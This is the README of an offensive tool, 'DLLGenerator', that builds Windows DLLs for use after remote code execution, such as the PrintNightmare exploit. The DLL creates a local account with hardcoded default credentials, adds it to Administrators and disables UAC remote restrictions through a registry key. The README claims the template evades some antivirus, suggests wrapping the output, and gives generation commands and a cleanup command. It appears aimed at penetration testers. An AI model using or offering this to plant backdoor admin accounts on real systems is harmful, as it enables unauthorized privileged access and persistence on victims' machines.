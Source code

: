 # DLLGenerator

## What ? 

Dllgenerator is a quick tool to generate DLL, it is designed to be quickly effective. 

## Why ? 

Sometimes you can only execute one DLL on a remote machine, and you have no connect back possible because of AV (like in the printnightmare exploit).

To bypass this you can : 
 - Create a local account
 - Add your local account to Administrators ( or Administrateurs 🇫🇷)
 - Disable UAC control 

Seems easy no ? 
In fact it is ! But it's boring to keep one file somewhere and don't remember how it works.
And one day you remove one line (uac for example) and you forgot it ..

## How ? 

Dllgenerator is based on a template file that (on july 2022) still bypass some AV. 
It takes your input and generate a sexy DLLFile with it. 
DLL is not encoded or whatever, but you may consider put it in a wrapper. 

## Dependency 

A cross compiler `mingw-w64-gcc` is used by default but you can customise the `--compiler` parameter.


## Man 

```
python generator.py 
usage: generator.py [-h] [--action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]] [--username USERNAME] [--password PASSWORD] [--group GROUP]
                    [--wrapper WRAPPER] [--compiler compiler] [--output OUTPUT]

______ _ _                                   _             
|  _  | | |                                 | |            
| | | | | |   __ _  ___ _ __   ___ _ __ __ _| |_ ___  _ __ 
| | | | | |  / _` |/ _ | '_ \ / _ | '__/ _` | __/ _ \| '__|
| |/ /| | | | (_| |  __| | | |  __| | | (_| | || (_) | |   
|___/ |_|_|  \__, |\___|_| |_|\___|_|  \__,_|\__\___/|_|   
              __/ |                                        
             |___/                                         
        Version : 1.0
        Author : shoxxdj

options:
  -h, --help            show this help message and exit
  --action {create_user,add_to_group,unset_uac} [{create_user,add_to_group,unset_uac} ...]
                        Main action
  --username USERNAME, -u USERNAME
                        Your username
  --password PASSWORD, -p PASSWORD
                        Your password matching the rules
  --group GROUP, -g GROUP
                        The group, tips for FR it's Administrateur
  --wrapper WRAPPER, -w WRAPPER
                        A command wrapper
  --compiler compiler, -c compiler
                        A C compiler : 'i686-w64-mingw32-gcc -lnetapi32' is an option
  --output OUTPUT, -o OUTPUT
                        path and name of your dll

```

### Create your first DLL 

```
python generator.py --action create_user add_to_group unset_uac
```
This will : 
- Create a local account : hoppy / H0pBreWedW1thl0v3 
- Add the account hoppy to group Administrators
- Set the regitry key to disable the functionnality in UAC that prevent remote connection
- Output as hoppy.dll in local directory

### Create a custom DLL 
```
python generator.py --action create_user add_to_group -u malt -p Il0v3b33r5 -g BrewersGroup -o /tmp/beer.dll
```
This will :
- Create a local account malt / Il0v3b33r5
- Add the account malt to BrewersGroup
- Output to /tmp as beer.dll


### Docker
``` 
docker build -t dllgenerator .
docker run -it --rm -v $PWD:/dllgenerator dllgenerator:latest --action create_user add_to_group unset_uac --output ./test.dll
```

### WARNING

1. Don't forget to clean the target machine ! Delete the user and delete the registry key if created
2. Don't use a password with a length > 14 characters, it will prompt for an input and dll will fail to add user 

```
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy
```

